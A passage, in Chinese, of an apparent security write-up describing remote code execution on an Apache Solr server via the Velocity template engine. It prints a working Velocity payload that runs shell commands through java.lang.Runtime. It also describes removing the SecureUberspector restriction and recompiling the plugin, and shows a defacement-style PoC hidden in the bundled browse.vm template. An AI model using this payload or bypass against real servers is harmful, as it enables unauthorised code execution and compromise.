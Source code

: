 到目前为止，我通过分发所需的 .jar 库文件和自定义的 "solrconfig.xml" 文件成功启用了 Velocity 引擎。唯一缺失的部分是提供一个恶意的 Velocity 模板来实现 RCE（远程代码执行）。在早期版本中，一旦启用了 Velocity，可以直接通过 "/select" 请求处理器中的 URL 参数来实现，就像我之前渲染默认的 "browse" 模板一样。然而，当我尝试这样做时，我发现 Velocity 现在只支持从本地文件系统执行模板。由于我能够提供任意文件，这并不构成问题，因此我直接在我的本地服务器上渲染了一个恶意模板，以检查是否真的能够实现 RCE。  
  
我创建了一个简单的模板，它将在服务器上执行 "id" 命令，并将其保存为 "rce.vm"，路径为 "server/solr/follower/conf/velocity/rce.vm  
"：  
```
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()]) $str.valueOf($chr.toChars($out.read())) #end
```  
  
我重启了服务器并访问了"/select?q=1&wt=velocity&v.template=rce"来渲染模板...但它并没有执行"id"命令：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBZ2oj8iaKIthAqvbFvytK7YibyxZ5gAu4bcQ1W3qzx8wKuGQ7fuccG6pA/640?wx_fmt=png&from=appmsg "")  
  
在多次检查模板语法是否正确并在网上搜索了数小时后，我"大概明白了"为什么它没有正确渲染。看起来 Velocity 引擎被配置为不允许实例化新类（这与一个名为"SecureUberspector"的内部类有关，如果你感兴趣可以查看这个 issue）。这本质上意味着"$x.class.forName()"的调用根本没有被执行。该死。  
  
此时，我已经没有想法了，于是休息了几天。  
## 修补 Velocity  
  
某天晚上，在重新查看我的笔记时，我想也许能在Velocity 插件 github 仓库中找到一些答案，因为它也包含了 Velocity .jar 文件的 Java 代码。我搜索了字符串"SecureUberspector"，令我惊讶的是，有两个结果：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBRiaSwZaibksswKgSLqKSw7rccucYFJbXFvgQ3nWH6DqkRxGlMP1bKXgg/640?wx_fmt=png&from=appmsg "")  
  
第一个结果对应的是在"solr-velocity/src/main/java/org/apache/solr/response/VelocityResponseWriter.java"中负责禁用新类实例化的代码片段！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBiclXHia0GxwkMEqlL1ZXRIAPxpQwNrya4Dzt8349qNLmOW6VWLZq0WGg/640?wx_fmt=png&from=appmsg "")  
  
嗯，这很令人兴奋。也许我可以删除这些行并重新编译.jar 文件，这样生成的 Velocity 引擎就没有限制了。经过一些尝试和错误，并修复了项目"pom.xml"文件中的一个损坏的依赖项后，我成功重新编译了.jar 文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBmcVopBIXQ8bt02nvTeopaQMibE1xDCibEzC16DTjyB5CicDnUjqdlKhFA/640?wx_fmt=png&from=appmsg "")  
  
我用这些新的 Velocity 库替换了本地 Solr 实例中的旧库，其中 Velocity 已经在之前的测试中配置好了，然后再次尝试访问"/select?q=1&wt=velocity&v.template=rce"来渲染"rce.vm"模板：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBxu7NHqVa5ErtNwjzbtGwFgrdxN4N7GFsj2PrtJKTqbjEInfZgjfHkQ/640?wx_fmt=png&from=appmsg "")  
  
太棒了！我有了一个在目标服务器上实现 RCE 的理论漏洞利用方法！现在，我需要测试它。既然我已经在重新编译 Velocity 插件并分发自定义的.jar 库，我认为修改.jar 文件中捆绑的默认"browse"模板会更酷，这样我就不必随这些库一起分发恶意模板了。于是，我编辑了"src/main/resources/browse.vm"模板，并创建了一个 PoC，通过执行"id"命令来证明我能够在目标服务器上实现 RCE：  
```
<title>Hacked by hacefresk0</title>
<h1>Hacked by hacefresk0</h1>
<br>
<pre>
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
</pre>
```  
  